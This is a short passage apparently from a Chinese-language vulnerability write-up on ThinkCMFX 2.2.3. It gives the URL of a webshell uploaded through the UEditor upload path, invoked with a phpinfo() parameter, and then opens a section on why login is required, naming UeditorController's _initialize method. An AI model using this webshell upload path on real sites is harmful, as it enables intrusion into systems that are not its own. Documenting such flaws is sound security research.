    shell地址: http://atest.test/cms/ThinkCMFX_2.2.3/data/upload/ueditor/20190724/5d3833dcce7e3.php?1=phpinfo();

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId47.png)

##### 0x04.2 为什么要登录

路径：ThinkCMFX\\application\\Asset\\Controller\\UeditorController.class.php
方法：public function \_initialize()
